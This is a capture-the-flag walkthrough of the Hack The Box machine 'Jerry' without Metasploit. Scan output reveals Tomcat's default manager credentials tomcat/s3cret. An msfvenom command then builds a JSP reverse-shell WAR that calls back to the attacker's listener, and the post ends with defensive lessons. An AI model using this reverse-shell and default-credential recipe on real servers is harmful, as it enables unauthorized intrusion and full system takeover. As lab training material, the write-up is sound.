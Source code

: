 # Jerry Writeup w/o Metasploit

![](https://miro.medium.com/max/590/1*6vyFg1efjSxOXiLaY5BQtA.png)

## Reconnaissance <a id="b0d4"></a>

Run the [nmapAutomato](https://github.com/rkhal101/nmapAutomator)r script to enumerate open ports and services running on those ports.

```text
./nmapAutomator.sh 10.10.10.95 All
```

* **All**: Runs all the scans consecutively.

We get back the following result.

```text
Running all scans on 10.10.10.95Host is likely running Windows---------------------Starting Nmap Quick Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:01 EST
Nmap scan report for 10.10.10.95
Host is up (0.043s latency).
Not shown: 999 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxyNmap done: 1 IP address (1 host up) scanned in 6.04 seconds---------------------Starting Nmap Basic Scan---------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:01 EST
Nmap scan report for 10.10.10.95
Host is up (0.16s latency).PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.96 seconds----------------------Starting Nmap UDP Scan----------------------Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:01 EST
Nmap scan report for 10.10.10.95
Host is up.
All 1000 scanned ports on 10.10.10.95 are open|filteredNmap done: 1 IP address (1 host up) scanned in 201.63 seconds---------------------Starting Nmap Full Scan----------------------
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:05 EST
Initiating Parallel DNS resolution of 1 host. at 00:05
Completed Parallel DNS resolution of 1 host. at 00:05, 0.02s elapsed
Initiating SYN Stealth Scan at 00:05
Scanning 10.10.10.95 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.95
.....
Nmap scan report for 10.10.10.95
Host is up (0.041s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxyRead data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 262.85 seconds
           Raw packets sent: 131271 (5.776MB) | Rcvd: 324 (33.413KB)No new ports---------------------Starting Nmap Vulns Scan---------------------
                                                                                                                                                                               
Running CVE scan on basic ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:09 EST
/usr/local/bin/nmapAutomator.sh: line 226:  2536 Segmentation fault      $nmapType -sV --script vulners --script-args mincvss=7.0 -p$(echo "${ports}") -oN nmap/CVEs_"$1".nmap "$1"Running Vuln scan on basic ports
                                                                                                                                                                               
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-20 00:09 EST
Nmap scan report for 10.10.10.95
Host is up (0.040s latency).PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder
.....Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 144.18 seconds---------------------Recon Recommendations----------------------Web Servers Recon:
                                                                                                                                                                               
gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://10.10.10.95:8080 -o recon/gobuster_10.10.10.95_8080.txt
nikto -host 10.10.10.95:8080 | tee recon/nikto_10.10.10.95_8080.txtWhich commands would you like to run?                                                                                                                                          
All (Default), gobuster, nikto, Skip <!>Running Default in (1) s:---------------------Running Recon Commands----------------------Starting gobuster scan
                                                                                                                                                                               
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Show length:    true
[+] Extensions:     php,html
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/02/20 00:12:20 Starting gobuster
===============================================================
http://10.10.10.95:8080/aux (Status: 200) [Size: 0]
http://10.10.10.95:8080/com2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/com3 (Status: 200) [Size: 0]
http://10.10.10.95:8080/con (Status: 200) [Size: 0]
http://10.10.10.95:8080/docs (Status: 302) [Size: 0]
http://10.10.10.95:8080/examples (Status: 302) [Size: 0]
http://10.10.10.95:8080/favicon.ico (Status: 200) [Size: 21630]
http://10.10.10.95:8080/host-manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/lpt1 (Status: 200) [Size: 0]
http://10.10.10.95:8080/lpt2 (Status: 200) [Size: 0]
http://10.10.10.95:8080/manager (Status: 302) [Size: 0]
http://10.10.10.95:8080/nul (Status: 200) [Size: 0]
===============================================================
2020/02/20 00:13:08 Finished
===============================================================Finished gobuster scan
                                                                                                                                                                               
=========================
                                                                                                                                                                               
Starting nikto scan
                                                                                                                                                                               
- Nikto v2.1.6
--------------------------------------------------------------------
+ Target IP:          10.10.10.95
+ Target Hostname:    10.10.10.95
+ Target Port:        8080
+ Start Time:         2020-02-20 00:13:09 (GMT-5)
--------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-39272: /favicon.ico file identifies this app/server as: Apache Tomcat (possibly 5.5.26 through 8.0.15), Alfresco Community
+ Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS 
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /examples/servlets/index.html: Apache Tomcat default JSP pages present.
+ OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
+ Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat.
+ /host-manager/html: Default Tomcat Manager / Host Manager interface found
+ /manager/html: Tomcat Manager / Host Manager interface found (pass protected)
+ /manager/status: Tomcat Server Status interface found (pass protected)
+ 7967 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2020-02-20 00:19:31 (GMT-5) (382 seconds)
--------------------------------------------------------------------
+ 1 host(s) testedFinished nikto scan
                                                                                                                                                                               
=========================
                                                                                                                                                                                                                                                                                                                                    
                                                                                                                                                                               
---------------------Finished all Nmap scans---------------------Completed in 18 minute(s) and 8 second(s)
```

We have one port open.

* **Port 8080:** running Apache Tomcat/Coyote JSP engine 1.1

Before we move on to enumeration, let’s make some mental notes about the scan results.

* Port 8080 is running Apache Tomcat and the nmap scan found the _/manager/html_ page, which is the login page to the Manager interface. The nikto scan identified that this page is using the default credentials _tomcat_/_s3cret_. Apache Tomcat by design allows you to run code, so we can simply deploy a war file that sends a reverse shell back to our attack machine.

Since we already have a way to get code execution on the box, we can just move on to the exploitation phase.

## Exploitation <a id="103d"></a>

Visit the _/manager/html_ page and log in with the credentials _tomcat_/_s3cret_.

![](https://miro.medium.com/max/1262/0*96G4tbEOOt4tJEtC.png)

Generate a war file that contains a reverse shell using msfvenom.

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -f war > shell.war
```

Upload the file on the Tomcat Application Manager and deploy it.

![](https://miro.medium.com/max/779/0*Ux835eO81J5k30zh.png)

Set up a listener on the target machine.

```text
nc -nlvp 1234
```

Click on the war file in the Tomcat Application Manager to execute our shell.

![](https://miro.medium.com/max/898/1*pvM-CqHbJfyGeOeIA1mpxA.png)

We get a shell with SYSTEM privileges! That was easy! We don’t even have to escalate our privileges for this box.

Grab the _user.txt_ and _root.txt_ flags.

![](https://miro.medium.com/max/964/1*HMxNDHZ88LP6-up5-7QdwQ.png)

## Lessons Learned <a id="fbcc"></a>

To get SYSTEM on this box, we exploited two vulnerabilities.

* Use of Default Credentials. There was an exposed port that was running Apache Tomcat. The administrator had used default credentials for the manager interface. This allowed us to access the interface and deploy a war file that gave us access to the server. Since default credentials are publicly available and can be easily obtained, the administrator should have instead used a sufficiently long password that is difficult to crack.
* Least Privilege Violation. Tomcat doesn’t need SYSTEM privileges to function properly. Instead it should have been run under a tomcat user account that has limited privileges. This way, even if we did get access to the box, we would have needed to find a way to escalate privileges, instead of immediately getting SYSTEM access without having to work for it. The administrator should have conformed to the principle of least privilege.

